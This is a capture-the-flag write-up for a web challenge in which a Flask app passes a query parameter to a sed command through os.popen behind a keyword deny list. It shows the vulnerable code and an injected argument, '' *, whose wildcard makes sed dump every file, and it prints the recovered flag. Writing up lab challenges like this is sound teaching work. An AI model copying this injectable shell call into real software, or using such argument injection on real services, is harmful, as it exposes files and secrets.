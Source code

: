 # SaaS 100 Points

# Description

Welcome to Sed as a Service! Now you can filter lorem ipsum to your heart's desire!

http://saas.chal.imaginaryctf.org

# Attachments

https://imaginaryctf.org/r/C279-app.py (Application) If link is down, the code is included below

# Solution

This challenge is pretty easy if you know about **sed** command.


Sed is a command use to search,find,insert and delete texts of given files

example
```bash
echo "Hello World" > text.txt
sed 's/Hello/Bye/' text.txt
Bye World
```

Challenge Web Page

<img src="https://raw.githubusercontent.com/MikelAcker/CTF_WRITEUPS_2021/main/ImaginaryCTF_2021_Writeup/Web/SaaS/info1.png">

Let's look at the given code first.It is pretty small

```python
from flask import Flask, render_template, request
import html
import os

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

blacklist = ["flag", "cat", "|", "&", ";", "`", "$"]

@app.route('/backend')
def backend():
    for word in blacklist:
        if word in request.args['query']:
            return "Stop hacking.\n"
    return html.escape(os.popen(f"sed {request.args['query']} stuff.txt").read())
```

It is a flask application.It get the value we search from **query** http parameter and make it as **sed** command option,execute the command and shows the result back in the webpage.

The thing is that we can't do command injection because of blacklist.But we don't have to do that.

One thing is that the **sed** command give the original content of the file if the option is empty.(ie '')

```bash
echo "Hello World" > text.txt
sed '' text.txt
Hello World
```

So, in this challenge, if we give no option with flag.txt it will print out the flag.But in our case, the **flag** is filtered.

We can use **wildcard** (*).Wildcard is character that matches any character or set of characters, including no character.So if we give ('' *) the flag should be reveled.

```bash
echo "Stuff" > stuff.txt
echo "flag" > flag.txt
sed '' * stuff.txt
flag
Stuff
Stuff
```

Let's try that!!!

[https://saas.chal.imaginaryctf.org/backend?query='' *](https://saas.chal.imaginaryctf.org/backend?query=%27%27+*)

<img src="https://raw.githubusercontent.com/MikelAcker/CTF_WRITEUPS_2021/main/ImaginaryCTF_2021_Writeup/Web/SaaS/info2.png">

And, we find the flag

```
ictf{:roocu:roocu:roocu:roocu:roocu:roocursion:rsion:rsion:rsion:rsion:rsion:_473fc2d1}
```
